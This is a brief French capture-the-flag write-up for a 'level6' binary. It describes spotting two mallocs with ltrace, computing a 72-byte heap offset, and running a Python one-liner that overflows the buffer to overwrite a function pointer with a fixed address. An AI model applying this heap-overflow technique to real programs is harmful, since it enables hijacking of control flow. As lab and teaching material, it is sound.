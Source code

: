 Quand on disassamble le level6 on voit que y'a 2 malloc donc potentiel overflow

ltrace ./level6 test

y'a 2 malloc 1 de 64 et un de 4

avec comme adresse 0x0804a008 (64) vs 0x0804a050 (4)

si on fait 0x0804a050 - 0x0804a008 = 0x48 = 72 en decimal

grace au buffer overflow generator : https://wiremask.eu/tools/buffer-overflow-pattern-generator/

en essayant on voit que ca segfault a 72 donc ca veut dire qu'il a une difference de 72 va donc faire comme les autres flag

sauf qu'on rajoute le python en argument de l'executable car sinon il segfault sans argument

./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
